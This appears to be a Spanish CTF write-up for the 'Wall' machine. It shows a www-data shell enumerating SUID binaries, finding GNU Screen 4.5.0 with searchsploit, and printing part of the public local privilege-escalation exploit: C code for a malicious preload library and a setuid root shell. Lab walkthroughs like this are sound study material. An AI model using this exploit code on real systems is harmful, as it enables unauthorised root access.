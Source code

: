 Una vez dentro vemos donde se encuentra la flag `user.txt`, y se encuentra en la ruta `/home/shelby/user.txt`
Intentamos visualizarla y vemos que no tenemos acceso a ella. Por lo que toca enumerar para ver si hay alguna posibilidad de escalar privilegios al usuario shelby o root.
Procedemos como siempre: 
```bash
www-data@Wall:/usr/local/centreon/www$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/bin/mount
/bin/ping
  "/bin/screen-4.5.0"   "Investigamos este"
/bin/fusermount
/bin/su
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/eject/dmcrypt-get-device
```
Hacemos un `searchsploit screen 4.5`:
```bash
# searchsploit screen 4.5                                                              
----------------------------------------------------------------------------- ---------
 Exploit Title                                                |  Path
---------------------------------------------------------------------------- -----------
GNU Screen 4.5.0 - Local Privilege Escalation                 | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)           | linux/local/41152.txt
----------------------------------------------------------------------------- -----------
```
Nos descargamos el primero que esta en `bash`
Y vemos lo que hace.
```bash
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
```